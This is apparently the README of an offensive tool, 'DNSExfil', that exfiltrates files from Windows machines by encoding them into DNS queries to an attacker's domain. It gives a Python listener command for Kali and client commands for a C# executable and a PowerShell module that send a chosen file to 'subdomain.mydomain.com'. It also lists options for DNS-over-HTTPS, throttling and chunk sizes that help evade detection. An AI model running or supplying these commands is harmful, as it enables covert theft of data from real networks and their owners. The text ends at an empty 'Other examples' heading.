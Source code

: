 <img src="https://dl.dropboxusercontent.com/s/z3hjd513jens17e/DNSExfil_04.jpg?dl=0" width="600">

Dependencies
----------------------

The only dependency is on the server side, as the `dnsexfil.py` script relies on the external **dnslib** library. You can install it using pip:
```
pip install -r requirements.txt
```

Usage
----------------------

***SERVER SIDE***

Start the `dnsexfil.py` script passing it the domain name or subdomain and decryption password to be used:
```
root@kali:~# ./dnsexfil.py -d subdomain.mydomain.com -p password
```

***CLIENT SIDE***

You can **either** use the compiled version, **or** the PowerShell wrapper (*which is basically the same thing*) **or** the JScript wrapper. In any case, the parameters are the same, with just a slight difference in the way of passing them in PowerShell.

1/ Using the C# compiled Windows executable (*which you can find in the `release` directory*):
```
DNSExfil.exe <file> <domainName> <password> [-b32] [h=google|cloudflare] [s=<DNS_server>] [t=<throttleTime>] [r=<requestMaxSize>] [l=<labelMaxSize>]
      file:           [MANDATORY] The file name to the file to be exfiltrated.
      domainName:     [MANDATORY] The domain name to use for DNS requests.
      password:       [MANDATORY] Password used to encrypt the data to be exfiltrated.
      -b32:           [OPTIONNAL] Use base32 encoding of data. Might be required by some DNS resolver break case.
      h:              [OPTIONNAL] Use Google or CloudFlare DoH (DNS over HTTP) servers.
      DNS_Server:     [OPTIONNAL] The DNS server name or IP to use for DNS requests. Defaults to the system one.
      throttleTime:   [OPTIONNAL] The time in milliseconds to wait between each DNS request.
      requestMaxSize: [OPTIONNAL] The maximum size in bytes for each DNS request. Defaults to 255 bytes..
      labelMaxSize:   [OPTIONNAL] The maximum size in chars for each DNS request label (subdomain). Defaults to 63 chars.
```
<img src="https://dl.dropboxusercontent.com/s/jqzptt5tqc2e8z9/DNSExfil_01.jpg?dl=0" width="900">


2/ Using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSExfil> powershell
PS c:\DNSExfil> Import-Module .\dnsexfil.ps1
PS c:\DNSExfil> Invoke-DNSExfil -i inputFile -d subdomain.mydomain.com -p password -s my.dns.server.com -t 500
[...]
```
# Other examples
